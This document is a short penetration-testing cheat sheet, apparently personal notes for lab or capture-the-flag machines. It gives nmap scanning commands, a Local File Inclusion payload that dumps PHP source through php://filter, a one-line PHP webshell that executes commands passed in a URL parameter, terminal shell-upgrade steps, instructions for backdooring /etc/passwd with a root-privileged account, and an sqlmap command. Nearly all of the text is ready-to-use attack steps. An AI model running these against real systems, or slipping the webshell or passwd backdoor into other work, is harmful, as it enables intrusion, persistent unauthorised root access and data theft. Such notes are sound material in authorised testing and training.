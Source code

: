 `nmap -sV -sC -p- -oN [FILE] [IP]`

Standard

`nmap -p- -sV -sC -A  --min-rate 1000 --max-retries 5 -oN [FILE] [IP]`

Faster But ports could be overseen because of retransmissoin cap

`nmap --script vuln -oN [FILE] [IP]`


## Local File Inclusion
`http://[IP]/index.php?file=php://filter/convert.base64-encode/resource=index.php`

Get the contents of all PHP files in base64 without executing them. 

`<?php echo passthru($_GET['cmd']); ?>`

PHP Webshell

## Upgrade Shell

`python -c'import pty; pty.spawn("/bin/bash")'`

Background Session with `ctrl + z`

`stty raw -echo`

`stty -a`

get row & col

`stty rows X columns Y`

Set rows and cols

Foreground Session again

`fg #jobnumber`

`export XTERM=xterm-color`

enable clear
## Add Account/Password to /etc/passwd

Generate password

`openssl passwd -1 -salt [Username] [PASSWD]`

Then Add to passwd file

`Username:generated password:UID:GUID:root:/root:/bin/bash`

## SQLMap 

Capture Request with Burp.

Save Request to File.

`sqlmap -r [REQUEST] --level [X] --risk [Y]`
